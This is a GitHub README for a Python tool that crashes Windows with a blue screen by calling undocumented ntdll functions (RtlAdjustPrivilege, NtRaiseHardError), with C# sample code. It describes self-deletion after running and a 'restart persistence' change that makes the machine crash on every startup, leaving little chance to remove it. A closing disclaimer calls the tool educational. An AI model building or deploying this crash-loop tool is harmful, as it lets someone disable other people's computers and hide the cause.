 # Windows BSOD  
This project was inspired from a undocumented function in ntdll.dll.
The function is based in C# but using ctypes python makes it possible  

[Link to undocumented function](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html) 

```
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

**Restart prestance**  

Modify Line 15:  

```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```  

*note this will cause it to BSOD on start up there is a very small window for deleting it*

**Disclaimer**  

This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
